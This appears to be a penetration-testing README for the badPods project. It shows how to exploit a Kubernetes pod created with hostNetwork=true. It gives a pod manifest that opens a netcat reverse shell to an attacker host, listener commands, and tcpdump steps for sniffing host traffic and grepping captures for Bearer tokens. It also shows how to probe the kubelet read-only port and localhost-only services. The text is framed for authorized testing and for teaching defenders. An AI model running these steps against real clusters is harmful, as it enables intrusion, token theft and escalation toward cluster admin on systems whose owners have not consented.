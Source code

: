 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostnetwork
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
  ```
[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostnetwork-revshell
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
```
[pod-hostnetwork-only-revshell.yaml](pod-hostnetwork-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork-only/pod-hostnetwork-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt install tcpdump 
```
You now have a few options for next steps: 

See if the `kubelet` read-only port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read-only port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


# Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
